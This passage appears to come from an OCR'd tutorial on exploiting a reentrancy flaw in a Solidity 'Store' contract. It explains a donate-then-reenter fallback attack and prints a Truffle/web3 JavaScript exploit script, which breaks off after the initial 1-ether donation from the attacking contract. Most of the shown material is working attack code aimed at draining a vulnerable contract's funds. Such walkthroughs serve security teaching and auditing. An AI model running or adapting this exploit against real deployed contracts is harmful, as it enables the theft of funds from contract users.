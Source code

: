 
let's our malicious contract and then write exploit that will make the same logic we have made above but in a malicious way.

> first we will make our malicious smart contract to donate `1 ether` so we  bypass first check in withdraw function
> then our contract when receives the plain ether will make fallback function run automatically over and over again upon each ether our contract has received.

# exploit

```javascript
const StoreContract   = artifacts.require('Store');
const ExploitContract = artifacts.require('Exploit'); 


const YELLOW = "\033[93m"
const GREEN  = "\033[32m"
const Blue   = "\033[34m"
const Red    = "\033[31m"


async function execute(callback) {
    
    console.log( Blue + '[*] start running the exploit')
    let vulnerableContract = await StoreContract.deployed();
    console.log(`[+] Vulnerable contract address is : ${vulnerableContract.address}`);
    
    let owner = web3.eth.accounts[0]
    console.log(`[+] owner address is ${owner}`)


    let OwnerBalance = await web3.fromWei(await web3.eth.getBalance(owner) , 'ether')
    console.log(`[+] Owner balance is : ${OwnerBalance}`)


    victimContractInitialBalance = web3.fromWei(await web3.eth.getBalance(vulnerableContract.address), 'ether')
    console.log(`[+] Initial victim's contract balance: ${victimContractInitialBalance} eth`)    

    //deploy our malicious contract
    
    console.log( YELLOW + '[+] deploy our malicious contract')

    let AttackingContract = await ExploitContract.deployed();
    let badBoy = await AttackingContract.attacker.call()
    console.log(`[+] badboy address is ${badBoy}`)


    console.log(`[+] badBoy contract address is : ${AttackingContract.address}`)

    
    let AttackerBalance = web3.fromWei(await web3.eth.getBalance(badBoy) , 'ether' )
    console.log("[+] badBoy account balance is :" + AttackerBalance)

 

    console.log( GREEN + '[+] make a small donation from our malicious contract')

    await vulnerableContract.donate(AttackingContract.address , {
        from: badBoy,
        value: web3.toWei(1, 'ether')

    })
```